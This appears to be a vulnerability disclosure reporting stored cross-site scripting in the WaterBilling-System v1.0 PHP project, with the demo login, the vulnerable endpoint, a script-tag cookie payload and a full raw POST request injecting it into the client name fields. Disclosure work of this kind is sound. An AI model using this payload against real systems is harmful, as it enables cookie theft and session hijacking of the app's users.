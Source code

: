 # WaterBilling-System v1.0 by itsourcecode.com has Cross-site Scripting (XSS)

Vul_Author: Kai Wang

Login Account:jude
Password:123

vendors: https://itsourcecode.com/free-projects/php-project/billing-system-in-php-with-source-code/

Vulnerability File: /billing/addclient1.php

Vulnerability location: /billing/addclient1.php HTTP/1.1

[+] Payload: <script>alert(document.cookie)</script>

Tested on Windows 10, phpStudy

There is an example with alert:
```
POST /billing/addclient1.php HTTP/1.1
Host: 10.12.180.79
Content-Length: 178
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.12.180.79
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.41
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.12.180.79/billing/clients.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=d4me9tekbcuef2k8k1qupv9i0t
Connection: close

lname=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&fname=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&mi=M&address=address&contact=test&meterReader=test&add=ADD
```

When you enter the system,click "add client"

![image](https://user-images.githubusercontent.com/56795018/221333339-79de63bb-6abf-4eed-ba3a-3a1aadddcd39.png)

input a XSS script in the lastname input boxes,such as "<script>alert(document.cookie)</script>",it will expose cookie.

![image](https://user-images.githubusercontent.com/56795018/221333584-a8c81a1c-9392-4a6e-b454-1ff1298398c0.png)

click add,and you will obtain its cookie.

![image](https://user-images.githubusercontent.com/56795018/221333611-c7525da2-2448-4d29-8c3e-cf4850c477ab.png)
